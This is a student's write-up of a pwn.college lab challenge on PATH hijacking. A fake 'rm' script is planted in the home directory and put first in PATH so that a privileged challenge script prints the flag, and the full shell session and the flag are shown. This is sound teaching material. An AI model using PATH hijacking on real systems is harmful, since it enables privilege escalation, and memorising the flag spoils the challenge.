 # Pondering PATH

## Hijacking Commands
Armed with your knowledge, you can now carry out some shenanigans.

### Objective
This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the rm command. But unlike before, it will not print anything out for you.

How can you solve this? You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it. What else can you create?

### Solve
**Flag:** `pwn.college{YoVr-wm6xi3XjaZ5AKleSNfbSWV.ddzNyUDLygjN0czW}`

- The first thing I tried to do was to create a script that I can use to cat the flag. So I created the win file with the `/run/dojo/bin/cat /flag` command in it. 
- Then just for checking, I tried to change the script written in the /challenge/run file but was unable to do so. So I just displayed its content.
- Then I displayed the PATH variable. In there, I removed all the paths present in it initially. Then I ran the /challenge/run command but did not get the flag since it was not accessing the flag itself and that meant I had to find a way to give the flag to it.
- So I tried to redirect the flag to it from the win file in different ways but none worked. 
- Then after multiple trial and errors, it clicked in my mind that it is executing the rm file. So just for checking, I identified the location of the rm file and then deleted it from the PATH. I repeated this process again a couple of times and it became clear that the `rm` file from the first available location was going to get executed.
- So I moved the win file to the rm file. Then added the `/home/hacker` path to the PATH variable. Then I again ran the `/challenge/run` command. This time I finally got the flag.

```
hacker@path~adding-commands:~$ touch win
hacker@path~adding-commands:~$ ls -l win
-rw-r--r-- 1 hacker hacker 0 Sep 27 11:01 win
hacker@path~adding-commands:~$ chmod a+x win
hacker@path~adding-commands:~$ ls -l win
-rwxr-xr-x 1 hacker hacker 0 Sep 27 11:01 win
hacker@path~hijacking-commands:~$ which cat
/run/dojo/bin/cat
hacker@path~adding-commands:~$ nano win
hacker@path~adding-commands:~$ cat win
#!/bin/bash

/run/dojo/bin/cat /flag
hacker@path~hijacking-commands:~$ nano /challenge/run
hacker@path~hijacking-commands:~$ cat /challenge/run
#!/opt/pwn.college/bash

/bin/fold -s <<< "Trying to remove /flag..."

RM=$(which rm 2>/dev/null)
[ -n "$RM" ] && echo "Found 'rm' command at $RM. Executing!"
rm -f /flag

if ! [ -f /flag ]
then
        /bin/fold -s <<< "Uh oh, looks like I successfully removed the flag! That means you did not properly set PATH to keep me from finding 'rm'. Since the flag is gone, you will need to re-launch the challenge from the module page! Better luck next time."
fi
hacker@path~hijacking-commands:~$ echo $PATH
/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~hijacking-commands:~$ PATH=""
hacker@path~hijacking-commands:~$ /challenge/run << win
> ^C
hacker@path~hijacking-commands:~$ /challenge/run < win

Trying to remove /flag...
/challenge/run: line 7: rm: No such file or directory
hacker@path~hijacking-commands:~$ win > /challenge/run
bash: /challenge/run: Permission denied
hacker@path~hijacking-commands:~$ /challenge/run >(win)
cat: /flag: Permission denied
Trying to remove /flag...
/challenge/run: line 7: rm: No such file or directory
hacker@path~hijacking-commands:~$ export PATH="/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
hacker@path~hijacking-commands:~$ which rm
/run/dojo/bin/rm
hacker@path~hijacking-commands:~$ export PATH="/run/challenge/bin:/root/.car
go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
hacker@path~hijacking-commands:~$ which rm
/usr/bin/rm
hacker@path~hijacking-commands:~$ export PATH="/run/challenge/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/sbin:/bin"
hacker@path~hijacking-commands:~$ which rm
/bin/rm
hacker@path~hijacking-commands:~$ mv win rm
hacker@path~hijacking-commands:~$ ls
Desktop  bin  flag  home-backup.tar.gz  rm
hacker@path~hijacking-commands:~$ export PATH=/home/hacker:$PATH
hacker@path~hijacking-commands:~$ which rm
/home/hacker/rm
hacker@path~hijacking-commands:~$ cat rm
#!/bin/bash

/run/dojo/bin/cat /flag
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{YoVr-wm6xi3XjaZ5AKleSNfbSWV.ddzNyUDLygjN0czW}
```

